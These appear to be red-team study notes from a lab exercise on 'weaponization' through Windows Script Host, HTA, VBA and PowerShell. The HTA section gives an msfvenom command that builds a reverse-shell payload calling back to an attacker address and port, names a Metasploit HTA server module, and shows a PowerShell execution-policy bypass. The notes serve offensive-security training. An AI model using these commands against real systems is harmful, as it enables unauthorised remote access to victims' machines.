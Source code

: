 # Weaponization
scripting techniques, including:

*   The Windows Script Host (WSH)
*   An HTML Application (HTA)
*   Visual Basic Applications (VBA)
*   PowerShell (PSH)

**Windows Scripting Host (WSH)**

Windows scripting host is a built-in Windows administration tool that runs batch files to automate and manage tasks within the operating system.

It is a Windows native engine, cscript.exe (for command-line scripts) and wscript.exe (for UI scripts), which are responsible for executing various Microsoft Visual Basic Scripts (VBScript), including vbs and vbe. For more information about VBScript, please visit [here](https://en.wikipedia.org/wiki/VBScript). It is important to note that the VBScript engine on a Windows operating system runs and executes applications with the same level of access and permission as a regular user; therefore, it is useful for the red teamers.

**HTML Application (HTA)**

HTA stands for “HTML Application.” It allows you to create a downloadable file that takes all the information regarding how it is displayed and rendered. HTML Applications, also known as HTAs, which are dynamic HTML pages containing JScript and VBScript. The LOLBINS (Living-of-the-land Binaries) tool mshta is used to execute HTA files. It can be executed by itself or automatically from Internet Explorer.

Then serve the payload.hta from a web server, this could be done from the attacking machine.

`msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.17.17.11 LPORT=1234 -f hta-psh -o thm.hta;nv -lnvp 1234`

```text-plain
use exploit/windows/misc/hta_server
```

**Visual Basic for Application (VBA)**

VBA stands for Visual Basic for Applications, a programming language by Microsoft implemented for Microsoft applications such as Microsoft Word, Excel, PowerPoint, etc. VBA programming allows automating tasks of nearly every keyboard and mouse interaction between a user and Microsoft Office applications.

Macros are Microsoft Office applications that contain embedded code written in a programming language known as Visual Basic for Applications (VBA). It is used to create custom functions to speed up manual tasks by creating automated processes. One of VBA's features is accessing the Windows Application Programming Interface ([API](https://en.wikipedia.org/wiki/Windows_API)) and other low-level functionality. For more information about VBA, visit [here](https://en.wikipedia.org/wiki/Visual_Basic_for_Applications). 

Powershell:

```text-plain
Set-ExecutionPolicy -Scope CurrentUser RemoteSigned 
powershell -ex bypass -File thm.ps1
```

to run scripts in ps